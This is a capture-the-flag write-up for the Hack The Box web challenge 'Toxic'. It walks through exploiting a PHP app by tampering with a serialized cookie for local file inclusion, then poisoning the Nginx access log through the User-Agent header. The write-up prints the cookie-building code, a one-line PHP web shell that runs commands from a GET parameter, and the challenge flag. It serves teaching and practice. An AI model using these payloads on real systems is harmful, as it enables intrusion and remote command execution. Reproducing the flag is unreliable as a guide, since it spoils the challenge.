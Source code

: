 # Writeup "Toxic"

## Quick Info

<table>
   <tr><td><b> site       </b></td><td> Hack the Box                                            </td></tr>
   <tr><td><b> url        </b></td><td> https://app.hackthebox.com/challenges/toxic              </td></tr>
   <tr><td><b> discussion </b></td><td> https://forum.hackthebox.com/t/official-toxic-discussion </td></tr>
   <tr><td><b> type       </b></td><td> challenge/web                                           </td></tr>
   <tr><td><b> difficulty </b></td><td> easy                                                    </td></tr>
   <tr><td><b> startdate  </b></td><td> 2022-08-10                                              </td></tr>
   <tr><td><b> enddate    </b></td><td> 2022-08-11                                              </td></tr>
</table>

## Description

> Humanity has exploited our allies, the dart frogs, for far too long, take back the freedom of our lovely poisonous friends. Malicious input is out of the question when dart frogs meet industrialisation. 🐸

## Solution

We receive an IP and port to a server and a zip file containing the _PHP_ application deployed on the server. The application displays a web page about dart frogs; as mentioned in the challenge description, there is no user input on the page.

<p align="center">
   <img src="includes/toxic-01.png" />
</p>

Looking through the file `Dockerfile`, we see that the application lies in the `/www` directory and the flag lies in the root directory. Also, the bash script `entrypoint.sh` is called when the application is set up, so we take a look at this file, as well. In `entrypoint.sh`, we find the following lines:

``` bash
# Generate random flag filename
mv /flag /flag_`cat /dev/urandom | tr -dc 'a-zA-Z0-9' | fold -w 5 | head -n 1`
```

This appends an underscore and five random characters to `flag`, so the new filename will look like e.g. `flag_TJ9ai` or `flag_xQszw`. This will make it harder to get to the flag, because we have to find out the correct file name before accessing the file.

Continuing our review of the source code, we find some dubious code in the file `index.php`:

``` php
if (empty($_COOKIE['PHPSESSID']))
{
    $page = new PageModel;
    $page->file = '/www/index.html';

    setcookie(
        'PHPSESSID', 
        base64_encode(serialize($page)), 
        time()+60*60*24, 
        '/'
    );
} 

$cookie = base64_decode($_COOKIE['PHPSESSID']);
unserialize($cookie);
```

First, the code checks if there is a cookie set. If there is none, a new `PageModel` object is created. Then, the cookie is read and unserialized[^2] without any checks or sanitation of what is effectively a user input. This allows a _"PHP Object Injection"_ attack[^3][^4]. Let's take a look at the definition of the `PageModel` class:

``` php
class PageModel
{
    public $file;

    public function __destruct() 
    {
        include($this->file);
    }
}
```

`__destruct` is a _"PHP magic method"_ which is called automatically when an object is destroyed[^1]. Since the object is unserialized in `index.php` without assigning it to a variable, this method is called immediately.

In this case, the `__destruct` method includes the file specified in the member variable `$file`. Again, this is done without any sanitation which allows the user to alter the cookie and therefore the file which is included by the website. This is called a _File Inclusion_ attack[^5].

However, we do not know the file name of the flag; therefore, this is not yet enough. We need a way to look through the file system and obtain the new flag file name. First, we try to use the vulnerability to perform a _Remote File Inclusion_ (RFI) attack. As a test, we create the following PHP file and host it using the command `python -m http.server`:

```php
<?php echo shell_exec("whoami"); ?>
```

This does not work, however. Apparently, only a _Local File Inclusion_ (LFI) is possible. A web search for _"php lfi rce"_ leads us to a page describing how to use a LFI to perform a _Remote Code Execution_ (RCE) by using a technique called _"Log Poisoning"_[^6]. In a nutshell, we have to perform the following steps:
1. Find a log file where we can influence the content;
2. inject our PHP code into the log file;
3. include the log file in the website using the LFI vulnerability.

From the Dockerfile we know that the web server runs NGINX so we do a web search for _"nginx log path"_. This tells us that the standard location for the access log file is `/var/log/nginx/access.log`. Using the following commands, we create and encode a custom object for the cookie:

``` php
$o = new PageModel;
$o->file = "/var/log/nginx/access.log";
$c = serialize($o);
$c = base64_encode($c);
print $c;

Output: "Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoyNToiL3Zhci9sb2cvbmdpbngvYWNjZXNzLmxvZyI7fQ=="
```

The cookie's value is replaced using the Firefox developer tools and the website shows the contents of the log file:

<p align="center">
   <img src="includes/toxic-02.png" />
</p>

Now we need a way of injecting our PHP code into the log file. Since we can see that the log file contains the `User-Agent` string of all received HTTP requests, we decide to use this field for the injection. As payload we choose the following line:

``` php
<?php echo shell_exec($_GET['cmd']); ?>
```

This will execute any command that is passed to the page via the GET parameter `cmd`. We replace the `User-Agent` string using the Firefox developer tools once more by right-clicking on the last GET request and choosing _"Edit and Resend"_:

<p align="center">
   <img src="includes/toxic-03.png" />
</p>

Success! By setting the `get` parameter, we can pass various shell commands to the server. First, let's find out the name of the flag file using the command `ls /`:

<p align="center">
   <img src="includes/toxic-04.png" />
</p>

So the file name is `flag_bHZeW`. Just one more step in order to get the flag itself using the command `cat /flag_bHZeW`:

<p align="center">
   <img src="includes/toxic-05.png" />
</p>

There we go!

```
HTB{P0i5on_1n_Cyb3r_W4rF4R3?!}
```

### Sources

[^1]: https://www.php.net/manual/en/language.oop5.magic.php
[^2]: https://www.php.net/manual/de/function.unserialize.php
[^3]: https://owasp.org/www-community/vulnerabilities/PHP_Object_Injection
[^4]: https://medium.com/swlh/exploiting-php-deserialization-56d71f03282a
[^5]: https://www.webmaster-tipps.de/php-sicherheit-local-file-inclusion-und-remote-file-inclusion/
[^6]: https://outpost24.com/blog/from-local-file-inclusion-to-remote-code-execution-part-1
